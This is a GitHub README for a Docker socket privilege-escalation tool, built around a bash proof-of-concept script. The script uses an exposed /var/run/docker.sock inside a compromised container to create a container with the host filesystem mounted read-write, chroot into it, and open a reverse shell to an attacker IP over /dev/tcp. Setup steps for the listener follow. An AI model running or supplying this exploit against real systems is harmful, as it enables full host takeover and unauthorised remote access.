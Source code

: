 # docker.sock environment takeover (Privilege Escalation)
![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/Docker.Socks.png?raw=true)

/var/run/docker.sock could lead to full environment takeover. (Privilege Escalation)

I've written a bash script to automate things written in the article below. 

## Proof of Concept
To run this, you have to already have RCE on a container. Even with RCE, most of the time you will not have access to a docker client and installing a docker client might not be possible.

```bash
#!/bin/bash
pay="bash -c 'bash -i >& /dev/tcp/<Attacker-ipaddr>/8888 0>&1'"
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
revShellContainerID=$(echo "$response" | cut -d'"' -f4)
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"
````
- Add the attacker ip address to above bash script 
- Start a listener on attacker machine on port 8888. 
- Check the screenshots if you don't understand.

![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/poc1.png?raw=true)
![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/poc2.png?raw=true)


### References
https://dejandayoff.com/the-danger-of-exposing-docker.sock/

# License
- MIT
